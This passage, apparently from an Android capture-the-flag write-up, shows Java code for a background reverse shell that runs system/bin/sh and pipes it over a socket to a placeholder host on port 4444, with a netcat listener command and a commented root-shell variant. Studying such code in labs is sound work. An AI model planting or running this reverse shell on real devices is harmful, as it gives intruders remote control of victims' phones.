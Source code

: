 ![](imgs/11.png)

*Note: The flag is deleted when the application enters on pause so I needed to relaunch it*

If you still want more, what about a reverse shell?

```java
public static void doit(){
    System.out.println("[+] - Also doing the thing");
    getShell();
}

private static void getShell(){
    // start a reverse shell in the background
    new Thread(new Runnable(){
        @Override
        public void run() {
            try {
                reverseShell();
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

    }).start();
}

private static void reverseShell() throws Exception {
    // could check to see if device is rooted
    // https://stackoverflow.com/questions/1101380/determine-if-running-on-a-rooted-device
    // final Process process = Runtime.getRuntime().exec(new String[]{"su", "-c", "system/bin/sh"}); // use if phone is rooted to get root shell...

    // create a process around the shell
    final Process process = Runtime.getRuntime().exec("system/bin/sh");

    // start a socket
    Socket socket = new Socket("<ip>", 4444);

    // server should be listen on port 4444
    // Netcat Example: nc -l -p 4444

    // forward streams until socket closes
    forwardStream(socket.getInputStream(), process.getOutputStream());
    forwardStream(process.getInputStream(), socket.getOutputStream());
    forwardStream(process.getErrorStream(), socket.getOutputStream());
    process.waitFor();

    // close the socket streams
    socket.getInputStream().close();
    socket.getOutputStream().close();
}

```